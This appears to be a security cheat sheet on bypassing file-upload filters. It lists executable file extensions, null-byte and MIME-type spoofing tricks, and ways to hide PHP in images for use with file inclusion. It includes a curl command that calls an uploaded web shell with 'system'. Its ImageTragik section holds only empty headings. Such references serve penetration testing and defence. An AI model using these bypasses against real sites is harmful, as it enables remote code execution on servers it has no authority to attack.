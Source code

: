 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
    * [PHP Extension](#php-extension)
    * [Other extensions](#other-extensions)
    * [Upload tricks](#upload-tricks)
    * [Picture upload with LFI](#picture-upload-with-lfi)
    * [Configuration Files](#configuration-files)
    * [CVE - Image Tragik](#cve---image-tragik)
* [References](#references)


## Tools
- [Fuxploider](https://github.com/almandin/fuxploider)

## Exploits

### PHP Extension

```powershell
.php
.php3
.php4
.php5
.php7

Less known extensions
.pht
.phar
.phpt
.pgif
.phtml
.phtm

Double extensions
.jpeg.php
.jpg.php
.png.php
```

### Other extensions

```powershell
asp : .asp, .aspx, .cer and .asa (IIS <= 7.5), shell.aspx;1.jpg (IIS < 7.0)
perl: .pl, .pm, .cgi, .lib
jsp : .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion: .cfm, .cfml, .cfc, .dbm
```

### Upload tricks

- Null byte (works well against `pathinfo()`)
    * .php%00.gif
    * .php\x00.gif
    * .php%00.png
    * .php\x00.png
    * .php%00.jpg
    * .php\x00.jpg
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`

### Picture upload with LFI

Valid pictures hosting PHP code. Upload the picture and use a local file inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.

### Configuration Files

- .htaccess
- web.config
- httpd.conf
- \_\_init\_\_.py


### CVE - Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)